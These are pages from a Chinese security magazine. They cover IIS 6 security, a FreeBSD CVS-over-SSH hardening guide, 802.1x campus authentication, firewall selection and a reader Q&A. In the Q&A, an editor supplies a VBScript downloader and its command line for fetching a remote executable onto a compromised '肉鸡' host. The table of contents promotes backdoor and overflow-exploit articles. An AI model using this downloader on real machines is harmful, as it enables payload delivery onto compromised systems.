由于 IIS 6 的 w3svc 服务与工作进程是分离的，也不会运行任何第三方的代码，所以不会受失败的工作进程的影响，这也是它能够管理工作进程的原因。要是它本身就如 IIS 5 中一样受工作进程的影响，它也不能有效地来管理工作进程。试想一下，要是一个工作进程失败导致了 w3svc 服务的失败，那 w3svc 服务就不可能行使重启失败工作进程的任务了，这也是把 w3svc 服务从 Inetinfo 进程独立出来的最大好处，也是最有力的理由。

### IIS6 其他安全性增强表现

IIS 6 不但采用了全新设计的架构，而且它也本着安全性的原则在其他方面做出了改进或增强，主要表现在以下方面：

- 1. 与 IIS 5 不同，默认情况下 IIS 6 不会随操作系统的安装而自动安装（除了 Windows Server 2003 Web 版），并且默认安装下来的 IIS 6 也只支持静态网站。要使用其他功能，必须显式地进行配置。另外，IIS 6 现在只能安装在 Windows Server 2003 上。
- 2. 如果是 Windows Server 2003 域，还可以通过组策略来控制 IIS 6 在网络内的安装。
- 3. 为了运行系统文件夹中的大多数可执行文件（如 cmd.exe），您必须是 Administrators 组、LocalSystem、Interactive 或 Service 账户的成员。该限制限制了对 Administrators 的远程访问，因此匿名用户无法运行可执行文件。
- 4. IIS 6 只对已知文件扩展名的文件请求提供服务。如果请求内容的文件扩展名未映射到已知的扩展，则服务器拒绝请求。
- 5. 在默认情况下，拒绝匿名用户（以 IUSR_computername 账户运行）对 Web 内容进行写入访问。
- 6. 工作进程会检测缓冲区溢出，并在检测到时退出程序。

> 编后：
>
> 确实如此，和前辈 IIS 5.0 相比较，IIS 6.0 和 Windows Server 2003 在网络应用服务器的管理、可用性、可靠性、安全性、性能与可扩展性方面提供了许多新的功能。IIS 6.0 同样增强了网络应用的开发与国际性支持。IIS 6.0 和 Windows Server 2003 提供了最可靠、高效、连接完整的网络服务器解决方案。如果不考虑 Apache，那么 IIS 6 是一个不错的选择！

刘流：CVS 是一种版本控制系统，它可以实现版本的并发管理，即使多个用户同时改动同一个文件也不会互相影响；CVS 会对各用户提交的文件进行比较，进而把那些不同的部分按照某种算法进行合并形成一个新的版本。CVS 好用，但其实安全同样重要。本文从 CVS 验证角度出发，具体讲述了如何构建一个基于 SSH 验证的 CVS 服务器。

## 构建基于 SSH 验证的 CVS 服务器

文／图 delphij

口令（pserver）验证和 SSH 验证是 CVS 目前最常用的两种验证方式，口令验证方式的配置非常简单，其缺点也非常明显，最严重的问题是：由于 pserver 方式中所有的网络传输都是明文的，如果在网络中存在嗅探器，则攻击者不仅能够获取通过 CVS 传输的资料（通常是源代码），而且甚至可以得到用户的口令。另一方面，穷举口令相当容易！

基于 SSH 验证的 CVS 有诸多的好处。首先，所有的传输都加密，因此，不需要担心泄密问题，而且用户可以通过 SSH 指纹来确保自己没有连接到某个实施中间人攻击的入侵者的服务器上；其次，采用公钥认证时，由于用户的私钥通常是 2048—4096 bit，因此，通过暴力破解（类似对 pserver 的口令穷举）是很不现实的。最后，由于不需要开放 pserver 端口，外界很难知道这是一台 CVS 服务器。

本文将以 FreeBSD 5.2 为例介绍如何安装和配置基于 SSH 验证的 CVS 服务。

### 前期配置

由于 FreeBSD 基本系统中包含了 CVS 和 SSH，因此，只需要下载一张 mini 的 ISO（对于 PC 兼容机，应该下载一个叫做 5.2-RELEASE-i386-miniinst.iso 的文件，它可以在 FreeBSD 的各个 FTP 镜像找到），在验证过其 MD5 正确性之后刻成光盘启动并安装就可以了。安装的时候只需要装基本系统 + Perl 就足够了。对全新安装，可以完全采用默认值——从 Standard 进去，分区按 A 接受默认设置，然后按 Q 保存，Distribution 选择 Minimum；装完后配置网卡的 IP 地址，重新启动即可。

顺利的话，上面的过程不到 10 分钟就可以完成。然后我们首先来加固操作系统本身的安全，以 root 身份在 /etc/rc.conf 中加入下面的行：

```text
sshd_enable="YES"        # 启动 OpenSSH
syslogd_flags="-ss"      # 阻止外来的 syslogd 请求
sendmail_enable="NO"     # 只允许送出邮件
```

在 /etc/sysctl.conf 中增加下面的行：

```text
net.inet.tcp.blackhole=2
net.inet.udp.blackhole=1
kern.coredump=0
kern.maxfiles=8192
```

上面的设置主要是阻止半开式端口扫描、禁止 coredump（除非你打算在这台机器上认真地调试程序）、增加允许打开的文件数目。最后，在 /boot/loader.conf 中增加下面的行：

```text
hw.ata.wc="0"
autoboot_delay="0"
beastie_disable="YES"
kern.ipc.nmbclusters="32768"
```

上面的修改中，第一行是关闭 IDE 硬盘上的写入缓存，因为对于需要保存重要数据的服务器来说，写入缓存带来的那一点性能提升和潜在的丢失数据的危险相比实在是太微不足道了；此外是提高启动速度（启动的时候不显示菜单、不等待）和抗御 DoS 攻击的能力（参考 tuning(7)）。

### 配置 CVS 和用户

上面这些设置已经足以让系统的安全强化不少了，关掉编辑器回到 shell 状态，创建一个用于 CVS 用户的组 ncvs：

```text
pw groupadd ncvs
```

所有的 CVS 用户都应属于这个组，为方便 ACL 的配置，ncvs 应该是这些用户的“主要”组（换句话说就是 adduser 时的 “Login group” 或 master.passwd 中用户所属的组）。用 adduser 脚本来添加用户非常简单，除了 Login group 之外，“Use password-based authentication” 一定要回答 no，剩下的都接受默认值就好了。如果非常在意安全，也可以写个脚本来作为用户的 shell（过滤输入，只允许执行很少的一些命令），不过，这么做比较复杂，而且我们在后面会介绍通过 SSH 限制的方法，因此，这里不具体介绍怎么做了。

初始化代码库：首先建立一个空的目录，然后用 “cvs -d 完整路径 init” 来完成初始化工作。这里需要注意，目录的权限最好是 770 或 775，也就是说，同组的用户应该有可写权限。整个目录应该属于某个 ncvs 组的成员和 ncvs 组：

```text
mkdir -p /home/ncvs && cvs -d /home/ncvs init && chmod -R 775 /home/ncvs
chown -R delphij:ncvs /home/ncvs
```

一般为了便于管理，CVS 管理员会通过 CVS 的 “hook” 来实现一些权限控制功能。本期杂志的配套光盘中包括一个我自己使用的 CVSROOT（下载地址：http://resources.delphij.net/projects/CVSROOT.tbz）包。从刚刚创建的那个代码库中把原来的 CVSROOT checkout 出来，再把这份展开、覆盖上去，作一些修改然后 add、commit 上去就能用了。

请参考文件中的注解修改 cfg_local.pm 中的一些参数。另一个需要设置的地方是 access，这个文件包括所有允许 commit 的用户名，而 avail 则是我们的 ACL（哪些用户／组允许在哪些目录里面修改文件）。

### 强化 SSH 安全

在 /etc/ssh/sshd_config 最后加上几行：

```text
Protocol 2
VersionAddendum WhoAmI
PasswordAuthentication no
```

上面的设置保证只有使用更安全的 SSH2 协议才能登录，此外，禁止通过 SSH 采用口令登录。

有经验的 *nix 管理员都知道给用户开 shell 权限是一件危险的事。在 Linux 中，任何用户都可以使用 su，假如这个用户恰好还知道 root 口令，那么他就能变为 root；在 FreeBSD 里面情况略好一点——只有 wheel 组的成员可以执行 su，但总之，一般的 CVS 用户不需要使用 shell，只要登录过来看见正常的 CVS 响应就可以完成所有的 CVS 操作了。

用户在本地使用 ssh-keygen -t dsa -b 2048 生成自己的密钥对，然后把对应的那个 .pub（公钥）发给管理员。管理员以 root 身份执行下面的命令：

```text
su -l 用户名
mkdir -p .ssh && cd .ssh && cat > authorized_keys
```

然后开始粘贴用户的 .pub 文件。用户的 .pub 文件是 ssh-dss 开头的一大串字符，然而不要忙着贴它，我们需要在前面加上一串：

```text
command="/usr/bin/cvs --allow-root=/home/ncvs server"
```

其中，allow-root 是用户允许访问的代码库根目录，如果需要访问不同的代码库，可以写多个 allow-root。这样，实际粘贴的内容应该像下面的样子：

```text
command="... server" ssh-dss AAA...
```

这么做以后，以用户的这个私钥登录过来看到的将不是 shell 的提示，而是 CVS 服务协议。

对于不做 HTTP 服务的 CVS 服务器，可以在 /etc/rc.conf 里面加入 `tcp_drop_synfin="YES"` 来阻止操作系统探测。

FreeBSD 的 security(7) manpage 提供了进一步的安全设置资料，你可以参考它进行设置。

### Windows 下的用法

很多流行的 CVS 客户端都提供了 SSH 支持。WinCVS 本身并不包含 SSH 客户端，因此需要安装 Cygwin，并使用其中的 OpenSSH。这里假定 Cygwin 安装在 `C:\cygwin`，在其中生成自己的密钥对（和 *nix 中一样），打开 WinCVS，在 Admin 菜单中选择 Preferences，然后把 Authentication 改为 ssh（图1）。

同时，还需要在 Settings 里面设置自己的私钥的位置，以及 SSH 客户端的位置（图2）。

日常的操作和口令验证的 CVS 是一样的，唯一的区别是，由于所有的操作都通过 SSH 进行，因此，不需要在界面中 login。

### 其他安全性考虑

在按照本文配置的 CVS 服务器上唯一需要对外开启的端口就是 SSH（TCP 22）。即使需要发送邮件，也不需要对外打开 SMTP（TCP 25）端口。因此，非授权用户攻克系统是非常困难的。登入系统的用户（拥有 CVS 权限的那些），由于受到了 ncvs 组身份的限制，即使设法切出一个 shell，也很难实现特权提升（在 SSH 方式下，用户的每次登录会启动一个以他自己的身份运行的 CVS 服务实例，而不是像 pserver 模式那样以 root 或 CVS 服务的身份运行）。

### 后记

CVS 对于经常进行网络协作开发的朋友来说一定非常熟悉了。如果我们的 CVS 命令或者我们团队辛辛苦苦编制的源代码被别有用心者在网络中窃取，其损失可想而知。看完本文后，我想你对这款基于 SSH 验证的 CVS 服务器的安全性一定已经有所了解，如果你正准备架设自己的 CVS 服务器，本文应该是你最好的向导了。

## Tips:

### 企业网站被攻击手段分类

#### 一、“拒绝服务”的攻击

不像传统黑客通过系统的漏洞而取得其使用权的入侵攻击方式，“拒绝服务”的攻击则属于阴险隐藏型，黑客通过选取一个系统以进行攻击，并通过改变大量的服务需求以淹没该系统，并造成被攻击的系统瘫痪。

#### 二、企业机密信息被窃取

随着网络经济的持续发展，电子商务观念也得到大多数人的认同之际，随之也带来了如何保护企业、客户交易资料不被窃取等相关问题。

#### 三、破坏企业的硬件、资料数据

此类的攻击通常将会造成硬件、应用软件或是资料数据等永久的破坏。由于这类直接破坏通常都必须要破坏者能够改变或是删除软件才可成功，这也显示出问题要不是出在内部的员工、有获得授权进入系统的承包商，那就一定是那些清楚所有信息安全结构的入侵者。

## 校园网中 802.1x 认证机制的建立

文／图 吴惠民

刘汝流：一直看黑防的朋友都知道，黑防的网管文章里，对无线网络的安全一直比较关注，并且有一定范围的涉及。由于很多朋友对无线网可能不是很了解，所以我们前几期都是发的一些较基础的文章，目的就是让读者朋友们随着我们的节奏来了解无线网的安全。今天带大家去看看无线网的 802.1X 认证机制如何在校园网中展开，让大家上升一个层次。

- 难度等级：高
- 前置知识：无线网络安全协议，802.1X 的认证机制

校园网的建设丰富了学习资源、提高了教育效率，但随着用户数的急剧增加和业务样式的增多，校园网的安全问题也日益突出，如 IP 仿冒、端口探测、非法攻击、发布不良信息等，无时无刻不在威胁校园网络的健康发展，也成为教育信息化建设中不容忽视的问题。

要解决这些问题，无疑离不开认证技术，通过认证确认用户的身份后，他在网络中所做的一切就有据可查，一方面使用户在接入网络时，就意识到自己是被认证的，自己所有的操作都是可以被定位的，在心理上给其敲响警钟；另一方面，一旦真的出了问题，可以根据接入认证的信息查到责任人。

传统认证方式（PPPoE、VLAN+WEB）需要对校园网中用户数据包进行繁琐的处理，对网络性能的影响很大，而通过增加高档网络设备来解决传输速度就必然导致网络成本的提升，因此在网络安全性、高效性和低成本上很难做到统一，IEEE 802.1x 协议的诞生很好地满足了用户在这些方面的需求，为校园网提供了一个良好的解决方案。

### 802.1x 技术介绍

IEEE 802.1x 又名为“基于端口的访问控制协议（Port Based Network Access Control Protocol）”，是目前网络领域最新的安全认证协议，它起源于 802.11 协议，后者是标准的无线局域网协议，802.1x 协议的产生主要是为了解决无线局域网用户的接入认证问题。

无线局域网的网络空间具有开放性和终端可移动性，所以很难通过网络物理空间来界定终端是否属于该网络，因此，需要通过端口认证来防止非法的计算机接入本地无线网络。

802.1x 认证在无线局域网中应用后，又被推广到有线的以太网上。它不同于传统的 PPPoE、Web 认证，认证流和业务流不分离。802.1x 认证基于逻辑端口把认证流和业务流进行分离。在认证通过之前，逻辑端口的状态为 unauthorized，此时只能通过 EAPOL 的 802.1x 认证报文；认证通过后，逻辑状态切换为 authorized，此时远端认证服务器可以下发用户的属性信息，如 VLAN、CAR 参数、优先级、用户访问控制列表等；在认证通过后，用户的流量将接受上述参数的监管，此时逻辑端口可以通过任何报文，即业务流可以通过。它的认证方式就是通过认证前后打开／关闭受控端口对业务流的通过性，来实现对用户接入的控制。

802.1x 协议又叫 the Extensible Authentication Protocol encapsulation over LANs（EAPOL），它包括以下 3 个元素：

- 客户端（Supplicant）：一般安装在用户的工作站上，当用户有上网需求时，客户端程序要求用户输入必要的用户名和口令，然后发出连接请求。
- 认证系统（Authenticator）：在以太网系统中指认证交换机，主要作用是完成用户认证信息的上传、下达工作，并根据认证的结果打开或关闭端口。
- 认证服务器（Authentication Server）：通过检验客户端发送来的用户名和口令来判别用户的身份是否合法，并将认证结果发给认证系统，使认证交换机决定是打开或保持端口关闭的状态。

在具有 802.1X 认证功能的网络系统中，当一个用户需要对网络资源进行访问之前的具体认证过程有如下 6 步：

- 当用户有上网需求时打开 802.1X 客户端程序，输入已经申请、登记过的用户名和口令，发起连接请求。此时，客户端程序将发出请求认证的报文给交换机，开始启动一次认证过程。
- 交换机收到请求认证的数据帧后，将发出一个请求帧要求客户端程序将用户输入的用户名送上来。
- 客户端程序响应交换机发出的请求，将用户名信息传送给交换机。交换机将客户端送上来的数据帧经过封包处理后送给认证服务器进行处理。
- 认证服务器收到交换机转发上来的用户名信息后，将该信息与数据库中的用户名表相比较，找到该用户名对应的口令信息，用随机生成的一个加密字对它进行加密处理，同时也将此加密字传送给交换机，由交换机传给客户端程序。
- 客户端程序收到由交换机传来的加密字后，用该加密字对口令部分进行加密处理，并通过交换机传给认证服务器。
- 认证服务器将送上来的加密后的口令信息和其自己经过加密运算后的口令信息进行对比，如果相同，则认为该用户为合法用户，反馈认证通过的消息，交换机则打开端口，允许用户的业务流通过端口访问网络。否则，反馈认证失败的消息，交换机则保持端口的关闭状态，只允许认证信息数据通过而不允许业务数据通过（图2）。

802.1x 认证的突出优点就是实现简单、认证效率高、安全可靠；无需多少业务网管设备，就能保证 IP 网络的无缝相连；同时，它在二层网络上实现用户认证，大大降低了整个网络的建网成本；而且由于客户端与认证服务器交换口令信息时，没有将口令以明文直接送到网络上进行传输，而是对口令信息进行了不可逆的加密算法处理，使在网络上传输的敏感信息有了更高的安全保障，杜绝了敏感信息泄漏的危险。

802.1x 协议与传统的认证方式相比，最大的不同在于：它是先认证，在认证通过后才能获得 IP 地址，这在网络安全上有了更好的保障。

### 802.1x 在校园网中的应用

根据 802.1x 和校园网的特点，对于校园网络，可以采取如下的连接方式：

802.1x 认证的服务器使用 Windows 2000 的 IAS 来提供标准的 Radius 认证。

中心交换机及汇聚交换机（本图中省略）使用普通交换机即可，无需对 802.1x 认证的支持。

接入层则全部采用支持 802.1x 认证的交换机。

（下转第 63 页）

## 绝对不做亡羊补牢人

### ——谈防火墙的配置与选购

文／图 何伟

刘流：防火墙是大家都非常熟悉的概念了，但问到防火墙具体有哪些种类，它们各自有什么优缺点，恐怕很多人的回答都难以令人满意。如果公司让你负责防火墙的配置，或者我们的大学同学需要到某些涉及到网络的公司应聘，需要用到防火墙，你应该如何选购和部署呢？这是一个很多在单位承担网络管理任务的朋友都难以回避的问题，也是很多刚出校门的读者非常关心的话题，本文就是专门针对这个问题而谈的，希望大家都能获取这方面的知识！

- 难易程度：中级
- 前置知识：防火墙相关

在大部分建筑物还在采用木制结构的时候，为防止火灾的发生和蔓延，人们将坚固的石块堆砌在房屋周围作为屏障，这种防护构筑物被称之为防火墙。如今的信息时代里，人们借用了这个名词，使用防火墙来保护敏感的数据不被窃取和篡改，不过这些防火墙由先进的计算机系统构成。

如今的防火墙被用来保护计算机网络免受非授权人员的骚扰与黑客的入侵。这些防火墙犹如一道护栏隔在被保护的内部网与不安全的非信任网络之间，我们目前广泛使用的互联网便是世界上最大、最不安全的网络，而建筑在这个网络上的各种网站更是危险重重，近年来媒体报道的很多黑客入侵事件都是通过互联网进行攻击的。

目前大量公司或 SOHO 购买防火墙，但对防火墙的功能和技术参数不清楚，容易让不法商贩蒙骗，以下将防火墙主要技术参数做一个比较全面的解释说明以及简单的对比，让公司或 SOHO 读者能根据自己实际情况购买，以下就以安奈特 AT-AR450 防火墙举例说明（图1）。

### 并发会话连接数

并发会话连接数是指，防火墙对信息流的处理能力，是防火墙能够同时处理的点对点会话连接的最大数目，它反映防火墙对多个连接的访问控制能力和连接状态跟踪能力。这个参数的大小可以直接影响到防火墙所能支持的最大信息点数。

一个并发会话数，代表一台机器打开的一个窗口或者一个页面向外的通讯。那么内网中一台机器同时开很多页面，并且聊天工具或者网络游戏同时进行着，那么这一台机器占用的会话数就会有几十到几百不等。内网中同时在线的机器数量越多，需要的会话数就越多。所以，根据防火墙的型号不同，型号越大，并发会话数就会越多。AT-AR450 能够支持的并行会话数高达 18000 条，并且使用内置的硬件加速功能，了解了这一情况，读者就不会让防火墙承担导致网速变慢的黑锅了。

## 性能

防火墙的性能对于一个防火墙来说是至关重要的，它决定了每秒钟可能通过防火墙的最大数据流量，以 bps 为单位。从几十兆到几百兆不等，千兆防火墙还会达到几个 G 的性能。这个性能目前防火墙都能达到 100M—1000M 不等，但读者一定要区分是防火墙处理能力还是防火墙网卡大小，一些 JS 将 100M 网卡换成 1000M 网卡就号称达到千兆级别了。AT-AR450 可以提供 100M 的吞吐性能，针对一般企业和 SOHO 用户比较适合。

## 工作模式

市场上，防火墙一般具备 3 种不同的工作模式：透明模式、网络地址转换（NAT）模式，还有路由模式。

透明模式时，防火墙过滤通过防火墙的封包，而不会修改数据包包头中的任何源或目的地信息。所有接口运行起来都像是同一网络中的一部分。此时防火墙的作用更像是 Layer 2（二层）交换机或桥接器。在透明模式下，接口的 IP 地址被设置为 0.0.0.0，防火墙对于用户来说是可视或“透明”的。

网络地址转换（NAT）模式时，防火墙的作用与 Layer 3（第 3 层）交换机（或路由器）相似，将绑定到外网区段的 IP 封包包头中的两个组件（源 IP 地址和源端口号）进行转换。防火墙用目的地区段接口的 IP 地址替换发送封包的主机的源 IP 地址。另外，它用另一个防火墙生成的任意端口号替换源端口号。

路由模式时，防火墙在不同区段间转发信息流时不执行 NAT，即当信息流穿过防火墙时，IP 封包包头中的源地址和端口号保持不变。与 NAT 不同，不需要为了允许入站会话到达主机而建立路由模式接口的映射和虚拟 IP 地址。与透明模式不同，内网区段中的接口和外网区段中的接口在不同的子网中。

## 管理界面

通常管理一个防火墙的方法有两种：图形化界面（GUI）和命令行界面（CLI）。图形界面一般通过 Web 方式或 Java 等程序编写的界面进行远程管理，命令行界面一般是通过 Console 口或者 Telnet 外加 SSH 加密协议进行远程管理。

## 策略设置

防火墙应该具有灵活的策略设置，针对源和目的 IP 地址、网络服务以及时间几个方面实施不同的安全策略，并且当策略很多时应该尽量小地影响防火墙的处理速度。

## 内容过滤

能够对内容做关键字过滤，如 E-mail 中含有“法轮功”时，应有所记录或截获此 E-mail，还有 URL 阻断、关键词检查、Java Applet、ActiveX 和恶意脚本过滤等。

## 入侵检测

防火墙应能防御大多数的黑客攻击，如 IP Spoofing、SYN flood、ICMP flood、UDP flood、IP Source Routing、Address sweep、Teardrop attack、Winnuke attack、Port Scan Attack、Ping of Death、Land attack、拒绝服务和许多其他的攻击，并且在检测到有攻击行为时能通过电子邮件或其他方式通知系统管理员。

## 用户认证

防火墙中应有用户认证系统，根据各种可限制的特征将内部用户统一管理起来，如根据 IP、MAC 等来确定内部唯一的用户，建立一个内部用户数据库。让这些用户在访问内部资源时，通过指定的认证流程。AT-AR450 支持 PAP/CHAP、RADIUS/TACACS 用户认证，支持 SMTP 和 HTTP 代理，支持 SSH、SSL 加密协议，支持 802.1x。

## 虚拟专用网 VPN

当分支机构之间或总部与客户端之间进行安全通信时，可以支持的最大 VPN 数、支持的加密方式（手工密钥、IKE、PKI、DES、3DES 和 AES 加密等）、是否支持完全的正反向加密，是否有冗余的 VPN 网关。安奈特 AT-AR450 防火墙，基于硬件的 AES、3DES、DES 加密，支持 512 条并行 IPSEC/ISAKMP VPN 通道，内置入侵检测系统和报警系统，支持 Windows XP、2000 的预置 VPN Clients，采用 X509 认证系统，适用于分支机构间的通信。

## 高可靠性

- 应能承受大规模的数据流量，并且能在恶劣的环境中工作，比如两台防火墙同时工作，共同负担网络流量，在其中一台防火墙中断的同时，另外一台自动接管所有任务，保证不会发生网络中断；另外如果单台防火墙失效或不正常时，数据能自动跳过防火墙，不会造成网络中断。

## 日志/监控

防火墙对受到的攻击和通过防火墙的请求应具有完备的日志功能，包括安全日志、时间日志和传输日志。优秀的防火墙可以将日志同步到指定主机上，实现对日志的详尽审计和备份。

高可靠性

防火墙系统处于网络的关键部位，其可靠性显然非常重要。一个故障频频、可靠性很差的产品显然不可能让人放心，而且防火墙居于内外网交界的关键位置，一旦防火墙出现问题，整个内网的主机都将根本无法访问外网。

### 后记

希望本文能让读者对防火墙的购买行为有一些帮助，避免被目前杂乱的型号、排山倒海的性能参数给淹没；当你购买好适合自己的防火墙之后请注意，这不是安全的结束，而是安全的开始；任何设备都不能保证完全阻挡攻击，设备只是一个工具，帮助你控制安全，而其他弱点有可能导致整个安全策划的失败，其实内网是最不安全的，但防火墙只是帮助你把外网的不安全因素屏蔽掉。

（上接第 60 页）

在用户开机接入时，就需要认证，通过认证才能接入网络，并获得 DHCP 分配的 IP 地址，同时，用户的接入时间和所用 IP 地址也记录在认证服务器上。

上网计算机需要安装客户端软件，才能配合交换机的认证（Windows XP 已经集成了 802.1x 协议的支持，无需客户端软件）。

这样，所有校园网内的机器，上网前必须通过 802.1x 体系的认证，其上网的接入时间和所用 IP 地址都记录在服务器上。

任何用户都无法冒充他人的 IP，而在网络内进行破坏活动的，根据 IP 地址和时间，也会马上被网管查到具体的人。

此外，再通过在可管理的交换机上，综合采用 MAC 地址绑定、IP 地址绑定、VLAN、ACL 访问控制等多种网络安全手段，就可以使得整个校园网变得更加安全。

## 存在的问题

通过 802.1x 来实现接入认证，虽然原理简单，实现方便，但也存在一些问题，最主要的是 802.1x 认证是基于端口的，而不是基于数据帧的，所以，如果一个端口连接多个用户时，只要一个用户通过了认证，该端口的状态就为打开，其他用户将不需要再认证。这就决定了一个支持 802.1x 的交换机的端口，只能连接一个用户，而不能在其下面使用普通交换机或集线器来展开，致使建网成本相对过高。

近期有通过 MAC 地址 + IP 地址的绑定功能来防止此问题的报道，原理上就是在认证通过后，记录其 MAC 地址和 IP 地址，认证交换机只对符合这两个条件的机器开放端口，不符合的还需要认证，这样可以大大降低认证的成本，必将促进 802.1x 的推广。

## 结束语

由上述可见，802.1x 认证有着很广泛的应用前景，虽然目前还存在一些问题，但随着技术的进步，其协议必将更趋完善。特别是在以太网（Ethernet）大行其道的情况下，为了克服其设计上的安全性缺乏，以获得更好的用户管理特性，802.1x 认证以其简单、方便必将得到大量的应用。

> 编者按：节后的 2 月和往年一样，照例要公布一些漏洞，这些漏洞又带来新一个月的轰动，广大黑友非常重视这段时期，抓住实际学习新的东西，同时，这段时间也是我们的学生朋友们回校的时候，大家交流交流感情，玩玩游戏，黑黑机器什么的是很正常的事，你是刀姐还是鱼肉？呵呵，赶快多学习网络安全知识吧，不然下一次在寒风中摆 cool 唱“为什么受伤的总是我”的，就有可能是你了哦！

**论坛 学生3721：** 我是个普通的大学生，用学校接入的网线上网，速度很慢，而且经常有学校的同学在同一个网络下攻击我们，让我们无法正常上网，听说黑防讲如何防御攻击，所以想问问编辑们，我装上防火墙是不是就能停止这样的攻击？具体如何设置？

**脚本小子：** 软件防火墙比较适合你使用，比较好的就是天网，它能防御很多攻击——当然是设置好了的前提下。现在防火墙除了一般的封闭指定端口、端口到进程映射，以及对连接请求、PING 等信息的警报，对 SYN、IGMP、NUKE 的防御外，还有数据包截取、分析、报告、防止内部非法程序外联等功能，实际上，普通的攻击软件防火墙就能抵御了，也是非常值得大家使用的东西，算是计算机系统中一个必备的工具吧！

说到设置，每个功能的实现都比较方便，如果需要，我们会在以后的文章中专门讲解，实际上是很简单的，如果你想使用某个功能，可以查看它的帮助文件，按照它的说明进行设置。

**wtf：** 既然大家需要这个方面的内容，我们将在 2004 年第四期杂志上比较系统地讲解如何实现这些功能，适合普通的上网族学习和使用，请大家关注。

**浙江 王小鱼：** 网络上原来有过一个在肉鸡上执行后可以直接下载 web 数据的东西，我忘了是通过什么方式实现的了，请问编辑，如何实现呢？它有什么特点呢？

**Socket：** 用脚本能很方便地实现这样的功能，具体代码如下：

```vbscript
iLocal = LCase(WScript.Arguments(1))
iRemote = LCase(WScript.Arguments(0))
```

```vbscript
Set xPost = CreateObject("Microsoft.XMLHTTP")

xPost.Open "GET", iRemote, 0
xPost.Send()

Set sGet = CreateObject("ADODB.Stream")
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile iLocal, 2

然后再执行：cScript iGet.vbs http://***.exe *.exe，这样就可以将程序下载到硬盘上了，他的特点就是非常的短小，完全可以绕过 echo 的方式输入，而且功能很实用，值得大家研究。
```

**论坛 小k：** 最近我只要是点击电脑中的 exe 文件都无法运行，真不知道该怎么办才好，我怀疑是不是注册表被别人改了？大编快帮帮我吧！

**蝴蝶：** 是你的文件关联被改了，可以这样改回来：先在命令行输入 assoc .exe 来显示 EXE 文件关联，系统显示“没有为扩展名 .exe 找到文件关联”，接着输入：ftype | more 来分屏显示系统中所有的文件类型，其中有一行显示为“exefile="%1" %*”，只要将 EXE 文件与“exefile”关联，故障就会解决！

在命令行输入：assoc .exe=exefile（assoc 与 .exe 之间有一空格），屏幕显示“.exe=exefile”。现在关闭命令提示符窗口，按 [Ctrl]+[Alt]+[Del] 组合键调出“Windows 安全”窗口，按 [关机] 按钮后选择“重新启动”选项，按正常模式启动 Windows 2000 后，所有的 EXE 文件都能正常运行了。

## 合则强 散则弱

互联网的春天正在进发；无数网络团体正在兴起，团队的优势越来越明显。这就是中国网络在三月的状况……前段时间某大型网络游戏公司被黑的事件提醒我们：网络安全再不是一个人的天下，也不是一个人奋斗就可以获得成功的，当然也不是只靠一个维护者就可以防护的！现在的网络安全，更需要的是整个团队的合作和共同努力，这样才能有更好的防护、更好的效果！

春去秋来，不知不觉间黑防已经成长了三年，在这三年的时光里，黑防从一本厚的小册子，到后来的月刊再到最后的半月刊，直到现在定位的攻防两册的形式，每次大的改变都经历了很多，每次改变都让我们内心充满期待，每次大的改变都凝聚着每个关心黑防的朋友的心血，每次改变都带来一片曙影，黑防就这样一步一步走过来了，虽然步履艰辛，担心读者朋友不喜欢，但我们信心十足！只要我们形成一个凝聚的团体，相信不管什么外部力量都是无法摧毁我们的！

在黑防成长的过程中，通过我们不断更新的攻防实验室，非常多的朋友学习到了很多实用的网络安全攻击、防御知识，虽然不可避免地存在一些缺陷，但我们一直在积极地听取大家的意见，每一轮都改进一些，希望能更适合大家的要求；同时，很高兴地看到大家通过实验室而让自身技术得到提高，而且每个朋友的成长几乎都能带动周围一圈人意识的改变，这样才真正地体现出了“攻防对立统一”的精髓。中国的网络安全就是靠我们每个人的努力才能获得成功，就是靠每个团体中每分子的努力才能成功！

如果有一天，当大家凝成一个坚固的“圈”，中国互联网的辉煌也就不再遥远了！

## 特别专题

## 让肉鸡难逃五指山

- 精品后门程序及思路分析 ················ 6

大家还记得小时候看的孙悟空和如来佛斗法的故事吧？再聪明的猴头，最后也只能在如来的手掌里扑腾，法力没人家高就是没办法。放到现实生活中，网络管理员和普通的入侵者就是这样攻防对立的关系，谁的“法力”高，谁就是天下的主宰！这也是无数网络安全爱好者喜欢研究安全技术的原因——在攻与防的对立统一中突出自己的价值！今天就给广大安全爱好者带来控制肉鸡的法宝！让肉鸡乖乖地被你控制着，永远不能逃出你的五指山！

## 漏洞攻击

- 被人遗忘的漏洞：IMail 溢出 ················ 15
- 整型溢出原理及实例 ················ 18
- Serv-U FTP Server 远程溢出抢鲜体验 ················ 22
- 我是这样发现 Serv-U FTP 溢出漏洞的 ················ 25

Serv-U 是很多站点使用的 FTP 服务器端，如果这个服务器端出现漏洞，对我们的网络来说影响可就大了！这不，最近绿盟就发布了 Serv-U 存在溢出漏洞的安全公告！相信关注漏洞的你都知道了这个事吧！同时，继 Flshsky 在我们黑防首发了 RPC 漏洞后，这次 KKQQ 也是自己发现的漏洞！并在很短的时间内通知了我们，多谢大家对黑防的信任和支持！希望越来越多的朋友能发现漏洞并通知我们，我们会及时地告诉广大朋友的！今天我们就把发现漏洞的原作者请到《黑客防线》，亲自为大家分析这个漏洞的前因后果！这可是一个很好的学习机会哦，大家可不要错过！

## 脚本攻击

## 划时代的脚本攻击

- 利用纯脚本技术获得系统权限 ················ 28

如果说以前的脚本攻击都只停留在 Web 层次的话，这次的文章是深入到了系统层了，因为 SQL 最迷人的地方在于它强大的功能，而其中很多不为人知的地方又是最迷人的！本文很多技术绝对是第一次出现！来吧！神秘的面纱将慢慢揭开！


定价：23.8 元

在本书中，可以看到各种有关网络安全方面的工具代码和代码注释（主要代码一并收录在本书的配套光盘中）。网络上流传的黑客工具很多，但你有没有想过尝试开发自己的黑客工具呢？也许有些朋友会觉得这对于自己来说太过于高深了，但只要看了本书后，你就会明白黑客工具是怎样写出来的。

书中介绍了运用多种开发语言，如 Visual Basic、Visual C++ 等工具来开发，书中的代码部分完全是流行的工具代码，并且都有中文注释，很容易就可以看明白。

书中列举了几位国内著名 Hacker 的代码，并且加上说明提要。在本书的配套光盘中，不仅概括了书中的代码，还收录了其他一些黑客工具代码和相关工具代码以及一些黑客工具等等。


定价：19.8 元

《黑客防线》2003 年增刊以 8 个栏目涵盖了黑客技术起步、进阶提高在内的 66 篇全新文章，分类很详细，每篇文章都经过精心挑选打造，是编辑部在长期读者调查的基础上，结合读者的喜好，特约作者撰写汇编而成，每个栏目的文章有一定的梯度，最适合想进一步提高黑客技术的读者阅读。

## 目录 CONTENTS


**定价：19.8 元**

